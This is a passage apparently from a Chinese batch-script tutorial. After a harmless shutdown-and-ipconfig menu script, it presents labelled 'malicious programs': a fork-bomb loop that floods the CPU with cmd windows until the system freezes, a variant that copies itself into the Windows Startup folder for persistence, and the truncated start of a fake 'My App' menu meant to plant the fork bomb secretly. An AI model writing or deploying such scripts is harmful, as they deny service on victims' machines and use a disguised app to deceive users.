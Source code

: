 ```cmd
if "%choice%" == "4" goto 4

echo please input correct value!
pause
goto menu

:1
set /p time=input time later to shutdown(s):
shutdown -s -f -t %time%
echo Set OK
pause
goto menu

:2
shutdown -a 
echo Cancel OK
pause
goto menu

:3
cls
ipconfig -all
pause
goto menu

:4
exit
```

### 2.2 恶意程序1

```cmd
# 作用：不断开启 cmd 窗口，沾满 CPU 造成死机
:a
start
goto a
```

## 2.3 恶意程序2

```cmd
# 作用：添加本程序开机自启，不断开启 cmd 窗口，沾满 CPU 造成死机
copy xxx.bat "%userprofile%\「开始」菜单\程序\启动"
:a
start
goto a
```

### 2.4 恶意程序3

```cmd
#伪装的正常程序，当执行第二个选项就会在启动文件夹创建恶意程序1.开机自启
@echo off
title My App
color 0a

:menu
cls
echo ======================
echo.
echo         MENU
echo 1.Shutdown at later
echo 2.Cancel shutdown
echo 3.Exit
```